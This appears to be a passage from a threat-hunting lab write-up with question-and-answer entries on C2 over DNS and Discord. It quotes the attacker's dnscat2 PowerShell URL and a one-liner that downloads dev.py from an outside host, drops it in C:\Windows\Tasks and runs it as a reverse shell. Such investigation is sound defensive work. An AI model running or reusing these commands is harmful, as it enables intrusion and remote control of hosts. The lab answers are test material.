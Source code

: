 
### Question and Answers section:

- What is the link downloaded using `PowerShell` to establish the `C2 over DNS`?
```c
https://raw.githubusercontent.com/lukebaggett/dnscat2-powershell/master/dnscat2.ps1
```


- After investigating C2 over Discord events, what command is used to download the malicious `dev.py` python script? (it used C2 over DNS to download the `dev.py`)
![](/assets/img/Pasted image 20240503074052.png)

```c
installer.exe -> discord.gg (C2) -> powershell -> http://www.oneedirve.xyz -> dev.py(revshell)
```

<u>Answer</u>:
```c
powershell iwr http://www.oneedirve.xyz/321c3cf/dev.py -out file C:\Windows\Tasks\dev.py; python3 C:\Windows\Tasks\dev.py;
```

	- Downloads the 'dev.py', placing it on C:\Windows\Tasks\ directory and then executing it.


- What is the name of the process that is `also` associated with `cdn[.]golge[.]xyz`?
<u>Query</u>:
```c
*cdn.golge.xyz*
```

Processes associated with the C2 domain:
![](/assets/img/Pasted image 20240503074619.png)

```c
- powershell.exe
- update.exe
- svchost.exe
```

<u>Answer</u>:
```c
update.exe
```


-----
# Conclusion


Congratulations! You have completed hunting different indicators of compromise and suspicious host and network activities in this room.   

To conclude the room, let's summarise the different hunting methodologies that we discussed throughout the room:
![](/assets/img/Pasted image 20240503075054.png)

